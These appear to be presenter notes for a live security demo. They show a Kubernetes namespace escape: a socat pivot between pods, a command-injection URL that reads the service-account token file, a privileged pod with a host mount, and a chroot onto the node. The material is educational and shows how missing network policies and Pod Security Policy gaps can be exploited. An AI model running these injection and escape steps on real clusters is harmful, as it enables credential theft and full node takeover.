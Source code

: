 We've now discovered another service running, which also has port 5000 open. 

SLIDE 18 - still don't know which namespace this new application is in

SLIDE 19 - no network controls to timeline

### STAGE 3 - ESCAPE THE NAMESPACE AND THE PSP

```console
root@snyky:~# socat tcp-listen:5001,reuseaddr,fork tcp:10.244.1.9:5000 &
```

SLIDE 20 - connect via snyky pod to new pod

As we already saw this works because there isn't a network policy stopping us from traversing between the secure namespace and other namespaces in the cluster. 

Back to our local console :

`kubectl port-forward snyky 5001 -n secure`

[WEBADMIN_DEFAULT](http://localhost:5001)

Looks like we have another instance of the same vulnerable application. Let's get the token for this one

[NEW_TOKEN](http://localhost:5001?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)

Now we can switch over the token in our kubeconfig and see what we can do with this token. 

`kubectl get pods`

With this token we can now view the default namespace, so we've managed to escape the secure namespace.

`k auth can-i --list --token=$TOKEN`

We can also see that we have permissions in the default namespace

SLIDE 21 - Add new app running in default

### STAGE 4 - GAIN CONTROL OF THE NODE

Let's try and create a privileged pod here. Show the pod yaml to show the host mount. 

`kubectl apply -f demo_yamls/nonroot_priv.yaml`

This now works, since this namespace isn't restricted by the Pod Security Policy. With a privileged pod, we can now do a lot more - we've now not only launched a privileged pod, but also a host mount volume. 

Get a shell on the container, either using kubectl or by accessing gotty again, and show the process table inside the container.

```console
sudo su
ps ax
```

Now let's mount the host filesystem in a chroot. Show the process table again - it's now clearly the host. 
